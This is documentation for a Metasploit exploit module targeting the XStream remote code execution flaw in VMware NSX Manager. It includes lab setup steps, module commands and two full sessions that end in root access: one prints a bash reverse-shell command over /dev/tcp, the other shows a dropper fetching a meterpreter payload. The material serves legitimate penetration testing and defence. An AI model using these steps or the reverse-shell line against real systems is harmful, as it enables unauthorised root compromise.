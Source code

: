 ## Vulnerable Application

VMware Cloud Foundation contains a remote code execution vulnerability via XStream open source library [CVE-2022-39144](https://nvd.nist.gov/vuln/detail/CVE-2021-39144).
VMware has evaluated the severity of this issue to be in the [Critical severity range](https://www.vmware.com/support/policies/security_response.html) with a maximum CVSSv3 base score of [9.8](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H).
Due to an unauthenticated endpoint that leverages XStream for input serialization in VMware Cloud Foundation (NSX-V),
a malicious actor can get remote code execution in the context of `root` on the appliance.

VMware Cloud Foundation `3.x` and more specific NSX Manager Data Center for vSphere up to and including version `6.4.13`
are vulnerable to Remote Command Injection.

This module has been tested against VMware NSX Manager (NSX-V) with the specifications listed below:

* VMware NSX Manager
* Version `6.4.13`
* Version `6.4.4`

## Verification Steps

Follow these instructions to install a vulnerable VMware NSX Manager on VirtualBox.
* Go to [Download VMware NSX for vSphere 6.4.13](https://customerconnect.vmware.com/en/downloads/details?downloadGroup=NSXV_6413&productId=417&rPId=96480)
* Note: You need to be a customer with valid VMware subscriptions
* Download the ova file `VMware-NSX-Manager-6.4.13-19307994.ova`
* Open VirtualBox and import the ova file
* After sucessful import, start the VM and you have a VMware NSX Manager running which is accessible using url `https://<nsx-manager-ip>`
* Credentials to login: user: `admin`, password: `default`
* Use the module and options below to test the vulnerability...

1. `use use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
No specific options.

## Scenarios

### VMware NSX Manager bash reverse shell

```
msf6 > use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > options

Module options (exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    443              yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machi
                                       ne or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set rhosts 192.168.100.5
rhosts => 192.168.100.5
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.5:443 can be exploited !
[+] The target appears to be vulnerable. Target is running VMware NSX Manager (NSX-V)
[*] Executing Unix (In-Memory) with bash -c '0<&44-;exec 44<>/dev/tcp/192.168.100.7/4444;sh <&44 >&44 2>&44'
[*] Command shell session 14 opened (192.168.100.7:4444 -> 192.168.100.5:42512) at 2022-11-05 10:33:37 +0000

pwd
/usr/lib/tanuki/bin
whoami
root
exit
[*] 192.168.100.5 - Command shell session 14 closed.

```

### VMware NSX Manager meterpreter session

```
msf6 > use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > options

Module options (exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    443              yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machi
                                       ne or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set rhosts 192.168.100.5
rhosts => 192.168.100.5
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.5:443 can be exploited !
[+] The target appears to be vulnerable. Target is running VMware NSX Manager (NSX-V)
[*] Executing Linux Dropper
[*] Using URL: http://192.168.100.7:8080/G5xrKmpiufcQdCt
[*] Client 192.168.100.5 (curl/7.81.0) requested /G5xrKmpiufcQdCt
[*] Sending payload to 192.168.100.5 (curl/7.81.0)
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Sending stage (3045348 bytes) to 192.168.100.5
[*] Meterpreter session 13 opened (192.168.100.7:4444 -> 192.168.100.5:42384) at 2022-11-05 10:29:30 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.100.5
OS           : NSX Manager 6.4.13 (Linux 4.9.297)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

## Limitations
The vulnerability check is limited in detecting that VMWare NSX Manager (NSX-V) is running without obtaining the version information.
However all VMware NSX Manager versions up to `6.4.13` are vulnerable, except for `6.4.14`, so most detected targets are likely
to be vulnerable.

